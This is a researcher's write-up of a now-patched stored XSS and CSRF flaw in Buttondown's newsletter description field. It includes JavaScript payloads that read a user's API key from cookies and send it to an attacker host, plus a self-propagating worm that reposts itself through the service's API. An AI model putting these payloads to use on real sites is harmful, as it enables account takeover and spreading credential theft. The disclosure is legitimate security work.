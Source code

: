 ```yaml
---
pretext: Article
title: Buttondown's XSS & CSRF Problem
subtitle: Aug 2023

inline: false
---
```


# Introduction

In this article, I will walk you through a vulnerability I discovered in Buttondown, a popular email newsletter service. The vulnerability involves a combination of Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF) attacks, which can potentially allow an attacker to gain unauthorized access to a user's account and perform actions on their behalf.


===
===

## Understanding the Vulnerability

The issue arises from the fact that the description box in the basic settings tab allows users to insert HTML without properly sanitizing the input. This means that malicious scripts can be injected into the description box. If a user who is logged into Buttondown views a newsletter containing such a script, their API key and other sensitive details stored in cookies can be exfiltrated.

===
===

## Exploitation Scenario

An attacker can craft a script to extract the API key from the cookies and send it to a remote server. Here is an example of such a script:

When a logged-in user views a newsletter containing this script, their API key will be sent to the attacker's server. The attacker can then use this API key to perform actions on the user's behalf, such as sending newsletters, accessing subscriber lists, or modifying account settings.

===

```js
<script>
fetch(
    'https://exfil.this.data/'
    + document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1],
    { mode: 'no-cors' }
);
</script>
```

===

## Impact

This vulnerability poses a serious risk to Buttondown users who are logged in and view newsletters containing malicious scripts. An attacker could potentially take over user accounts, access sensitive data, and perform unauthorized actions.

===
===

## Self-Replicating Exploit

One of the most concerning aspects of this vulnerability is its potential to become a self-replicating exploit, similar to the infamous MySpace Samy worm. The API allows users to add arbitrary data to the description of a blog post, which means that an attacker could inject a script that not only exfiltrates data but also propagates itself to other users.

Here is an example of how such a script could look:

===


```js
// THE PAYLOAD
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: '<script>'
            + document.currentScript.innerHTML
            + '</script>'
    })
});
```

<br/>
<br/>


```js
// THE PAYLOAD IN ACTION

// Extract the API key from the cookies
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];

// Exfiltrate the API key to the attacker's server
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });

// Propagate the exploit by adding
// the malicious script to the target's description
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: ``
    })
});
```
===
I reported this vulnerability through Buttondown's responsible disclosure program, and they have since patched the issue. They were quick, friendly and professional in their response, and I appreciate their commitment to security.

===